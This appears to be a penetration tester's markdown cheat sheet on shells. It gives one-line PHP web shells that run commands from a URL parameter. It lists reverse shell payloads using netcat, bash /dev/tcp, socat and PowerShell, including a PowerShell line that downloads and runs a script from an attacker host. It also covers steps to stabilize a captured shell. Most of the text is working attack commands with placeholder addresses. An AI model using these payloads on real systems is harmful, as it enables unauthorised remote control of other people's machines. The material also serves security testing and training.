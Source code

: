 # shells

## Web shells

- Simple web shells

```shell
<?php system($_GET['cmd']); ?>
```

```shell
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

- Infamous pentestmonkey PHP reverse shell [https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)

## Payloads

A list of reverse shell payloads can be found at [PayloadsAllTheThings GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md). 
Common payloads include

- Netcat traditional
```
nc ip 1234 -e /bin/bash
```
- Netcat 
```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc ip 1234 >/tmp/f
```
- Bash TCP
```shell
bash -i >& /dev/tcp/$me/1234 0>&1
```
- Socat
```shell
# listener
socat TCP-L:1234 FILE:`tty`,raw,echo=0

# victim
socat TCP:me:1234 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
- Powershell
```powershell
powershell -c "iex (New-Object Net.WebClient).DownloadString('http://$me:8888/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress $me -Port 1234"
```
- Powershell (staged)
```powershell
powershell (New-Object Net.WebClient).Downloadfile('http://$me:8888/Invoke-PowerShellTcp.ps1')
powershell Import-Module ./Invoke-PowerShellTcp.ps1; Invoke-PowershellTcp -Reverse -IPAddress $me -Port 1234
```


## Stabilization

- Stabilize your shell using

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
alias ls='ls --color=auto'
alias grep='grep --color=auto'
export TERM=xterm
```

depending on Python version available.

- Set up autocomplete. Background the shell using `CTRL + Z` and run

```shell
stty raw -echo; fg
```
to foreground the shell using tab completion.


